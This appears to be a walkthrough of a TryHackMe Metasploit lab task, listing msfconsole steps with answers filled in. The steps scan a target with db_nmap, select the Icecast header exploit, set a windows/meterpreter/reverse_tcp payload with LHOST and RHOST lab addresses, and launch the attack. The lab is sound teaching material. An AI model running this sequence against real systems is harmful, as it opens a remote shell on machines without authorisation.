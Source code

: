 # Task 5: Move that shell!

  
#1 Metasploit comes with a built-in way to run nmap and feed it's results directly into our database. Let's run that now by using the command 'db\_nmap -sV BOX-IP'  
  
  
#2 What service does nmap identify running on port 135?  
msrpc  
  
#3 Let's go ahead and see what information we have collected in the database. Try typing the command 'hosts' into the msfconsole now.  
  
#4 How about something else from the database, try the command 'services' now.  
  
#5 One last thing, try the command 'vulns' now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully.   
  
#6 Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type 'use' followed by a unique string found within only the target exploit. For example, try this out now with the following command 'use icecast'. What is the full path for our exploit that now appears on the msfconsole prompt? *This will include the exploit section at the start.  
exploit/windows/http/icecast\_header  
  
#7 While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command 'search multi/handler'. What is the name of the column on the far left side of the console that shows up next to 'Name'? Go ahead and run the command 'use NUMBER\_NEXT\_TO exploit/multi/handler` wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.  
  
#8 Now type the command 'use NUMBER\_FROM\_PREVIOUS\_QUESTION'. This is the short way to use modules returned by search results.   
  
#9 Next, let's set the payload using this command 'set PAYLOAD windows/meterpreter/reverse\_tcp'. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command 'set LHOST YOUR\_IP\_ON\_TRYHACKME'. You might have to check your IP using the command 'ip addr', it will likely be your tun0 interface.  
set LHOST 10.8.30.58  
  
#10 Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.  
  
#11 One last step before we can run our exploit. Run the command 'set RHOST BOX\_IP' to tell Metasploit which target to attack.  
 set RHOST 10.10.209.12  
  
#12 Once you're set those variables correctly, run the exploit now via either the command 'exploit' or the command 'run -j' to run this as a job.  
  
#13 Once we've started this, we can check all of the jobs running on the system by running the command `jobs`  
  
#14 After we've established our connection in the next task, we can list all of our sessions using the command `sessions`. Similarly, we can interact with a target session using the command `sessions -i SESSION\_NUMBER`


